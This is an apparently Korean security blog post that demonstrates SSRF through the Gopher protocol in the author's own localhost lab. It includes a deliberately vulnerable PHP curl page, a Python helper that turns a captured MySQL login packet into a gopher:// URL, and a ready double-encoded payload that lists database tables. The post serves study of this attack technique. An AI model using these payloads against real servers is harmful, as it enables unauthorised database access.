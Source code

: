 ```yaml
---
layout: post
title:  "SSRF Gopher Protocol을 이용하여 MySQL 주입(SSRF Through Gopher)"
tags: [WEB-Vuln]
excerpt: "SSRF 취약점이 발생할 때 Gopher Protocol을 이용하여 MySQL에 쿼리를 주입하여 있는 데이터베이스 정보를 탈취할 수 있습니다."
---
```

---

# Gopher 이란?([rfc 1436](https://datatracker.ietf.org/doc/html/rfc1436))

Gopher(고퍼)는 가서(Go) 가져온다(Fer)으로 가서 퍼온다라는 의미를 가지고 있으며 미네소타 대학에서 다양한 일정을 쉽게 관리하기 위해 만들어지면서 시작되었는데요

이 Gopher(고퍼)는 웹이 개발되기 전 FTP, Telnet과 같은 다양한 인터넷 서비스를 이용할 수 있게 됐습니다. 

하지만 HTTP가 개발되면서 대부분의 사용자들은 HTTP로 이용하게 되면서 Gopher은 현재 잘 쓰지 않는 프로토콜이라고 알려져있는데요

해당 Gopher(고퍼)를 이용하여 HTTP 요청, MySQL 연결, FTP 등 다양한 기능을 사용할 수 있습니다.

예시로 HTTP 요청의 경우 아래와 같이 80포트로 gopher 프로토콜을 이용하여 헤더를 생성하여 요청을 보내면 서버에서 Response를 받아 그대로 출력하는걸 볼 수 있습니다.

```bash
root@/var/www/html$ # GET / HTTP/1.1
root@/var/www/html$ # Host: localhost
root@/var/www/html$ curl gopher://127.0.0.1:80/_GET%20/%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0a
HTTP/1.1 200 OK
Date: Mon, 13 Sep 2021 14:47:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Mon, 13 Sep 2021 14:45:51 GMT
ETag: "17-5cbe1857b1730"
Accept-Ranges: bytes
Content-Length: 23
Content-Type: text/html

Hello Gopher Protocol!
```

또한 리눅스에서 nc와 curl을 이용하여 원하는 값을 전송할 수 있습니다.

![Gopher curl to nc](\post-images\SSRF\Gopher-Protocol\gopher-curl-nc.png)

---

# SSRF Example

먼저 Gopher 프로토콜을 이용하여 MySQL 데이터베이스의 정보를 탈취하는 시나리오를 위해서는 SSRF 취약점이 발생할 수 있는 페이지를 만들었습니다.

### index.php

```php
<?php 

if(isset($_GET['url'])){
    $cn = curl_init();
    curl_setopt($cn, CURLOPT_URL, $_GET['url']);
    $result = curl_exec($cn);

    echo $result;
}else{
    echo "?url=https://www.google.com";
}

?>
```

---

### hello.php

```php
Hello CURL hello.php
```

이렇게 php-curl을 이용하여 요청할 수 있는 환경을 만든 다음 ``?url=http://localhost/hello.php`` 를 넣어주게되면 해당 URL으로 요청하게 되면서 SSRF 취약점이 발생할 수 있게 됩니다.

---

## Gopher을 이용한 MySQL 데이터베이스 정보 탈취

SSRF가 취약점이 발생할 수 있는 서버의 MySQL 유저의 비밀번호가 없는 경우 Gopher 프로토콜을 이용하여 MySQL에 연결할 수 있게 됩니다.

---

#### MySQL 비밀번호 삭제

다음과 같은 명령어를 이용하여 비밀번호를 없앤 다음

```sql
mysql> alter user 'root'@'localhost' identified with mysql_native_password by '';
```

MySQL에 연결하는 패킷을 잡기 위해 PHP 소스코드로 연결하고 원하는 쿼리를 전송하고

---

### Wireshark MySQL Packet Capture

---

#### MySQL 연결

```php
<?php 

$conn = new mysqli("localhost", "root", "");
$conn->query("SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES");

?>
```

---

![Wireshark Packet MySQL](\post-images\SSRF\Gopher-Protocol\Wireshark-Packet-MySQL.png)

Wireshark(와이어샤크)를 이용해 로컬의 MySQL Packet를 캡쳐하면 위의 사진과 같이 MySQL의 요청, 응답 패킷이 캡쳐된걸 볼 수 있습니다.

---

### 캡쳐된 패킷 우클릭 후 ``Follow->TCP stream``

![MySQL Packet TCP stream](\post-images\SSRF\Gopher-Protocol\MySQL-Packet-TCP-stream.png)

캡쳐된 MySQL 패킷중 아무거나 눌러주면 되는데 괜히 헷갈리다가 삽질할 수 있으니 요청의 시작인 ``Login Request user=root`` 부분에 우클릭 한 다음 ``Follow`` 부분에 있는 ``TCP stream``을 누르면

---

### TCP stream의 ``::1:50731 -> ::1:3306(149 bytes)``를 눌러 요청된 캡쳐를 가지고 Show data as을 RAW으로 변경

![MySQL TCP Stream REQUEST RESPONSE](\post-images\SSRF\Gopher-Protocol\MySQL-TCP-Stream-Request-Response.png)

위의 사진처럼 요청(빨간색), 응답(파란색)이 있는걸 볼 수 있는데 요청 패킷만 가져오기 위해서

![TCP Stream ASCII Request](\post-images\SSRF\Gopher-Protocol\TCP-Stream-ASCII-Request.png)

하단에 있는 ``::1:50731 -> ::1:3306 (149 bytes)`` 부분을 눌러 확인하면

![TCP stream RAW](\post-images\SSRF\Gopher-Protocol\TCP-stream-RAW.png)

이렇게 요청 값만 보이게 됩니다. 

요청 값들을 URL으로 전송하기 위해 Show data as ASCII 부분을 RAW 으로 바꿔주면 아래와 같이 HEX로 인코딩된 데이터 값이 나오는데

![TCP REQUEST RAW HEX Encoding](\post-images\SSRF\Gopher-Protocol\MySQL-TCP-Stream-Request-HEX.png)

해당 HEX 데이터를 모두 복사한 다음 줄바꿈을 없애고 해당 python 코드를 실행시키면

```py
def gopher_raw_data(payloads):
    payloads = [payloads[i:i + 2] for i in range(0, len(payloads), 2)]

    print("gopher://127.0.0.1:3306/_%{}".format("%".join(payloads)))

gopher_raw_data("5300000185a20a00000000c0ff0000000000000000000000000000000000000000000000726f6f740000006d7973716c5f6e61746976655f70617373776f726400150c5f636c69656e745f6e616d65076d7973716c6e6400000003310000000353454c454354205441424c455f4e414d452046524f4d20494e464f524d4154494f4e5f534348454d412e5441424c45530100000001")
```

``SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;`` 쿼리를 실행할 수 있는 gopher URL이 나옵니다.

```
gopher://127.0.0.1:3306/_%53%00%00%01%85%a2%0a%00%00%00%00%c0%ff%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%15%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%07%6d%79%73%71%6c%6e%64%00%00%00%03%31%00%00%00%03%53%45%4c%45%43%54%20%54%41%42%4c%45%5f%4e%41%4d%45%20%46%52%4f%4d%20%49%4e%46%4f%52%4d%41%54%49%4f%4e%5f%53%43%48%45%4d%41%2e%54%41%42%4c%45%53%01%00%00%00%01
```

이제 해당 URL을 SRF 취약저밍 터지는 서버 내부의 CURL에 그대로 전송하기 위해 double url encoding하면

```
http://localhost?url=gopher://127.0.0.1:3306/_%25%35%33%25%30%30%25%30%30%25%30%31%25%38%35%25%61%32%25%30%61%25%30%30%25%30%30%25%30%30%25%30%30%25%63%30%25%66%66%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%37%32%25%36%66%25%36%66%25%37%34%25%30%30%25%30%30%25%30%30%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%35%66%25%36%65%25%36%31%25%37%34%25%36%39%25%37%36%25%36%35%25%35%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%30%30%25%31%35%25%30%63%25%35%66%25%36%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%30%37%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%36%65%25%36%34%25%30%30%25%30%30%25%30%30%25%30%33%25%33%31%25%30%30%25%30%30%25%30%30%25%30%33%25%35%33%25%34%35%25%34%63%25%34%35%25%34%33%25%35%34%25%32%30%25%35%34%25%34%31%25%34%32%25%34%63%25%34%35%25%35%66%25%34%65%25%34%31%25%34%64%25%34%35%25%32%30%25%34%36%25%35%32%25%34%66%25%34%64%25%32%30%25%34%39%25%34%65%25%34%36%25%34%66%25%35%32%25%34%64%25%34%31%25%35%34%25%34%39%25%34%66%25%34%65%25%35%66%25%35%33%25%34%33%25%34%38%25%34%35%25%34%64%25%34%31%25%32%65%25%35%34%25%34%31%25%34%32%25%34%63%25%34%35%25%35%33%25%30%31%25%30%30%25%30%30%25%30%30%25%30%31
```

![SSRF database tables list](\post-images\SSRF\Gopher-Protocol\ssrf-tables.png)

이렇게 SSRF 취약점을 이용하여 gopher 프로토콜로 데이터베이스의 정보를 탈취할 수 있는걸 볼 수 있었습니다.

---

## 후기

SSRF 취약점을 이용하여 웹 페이지의 소스코드만 가져올 수 있는게 아니라는걸 알 수 있었습니다.
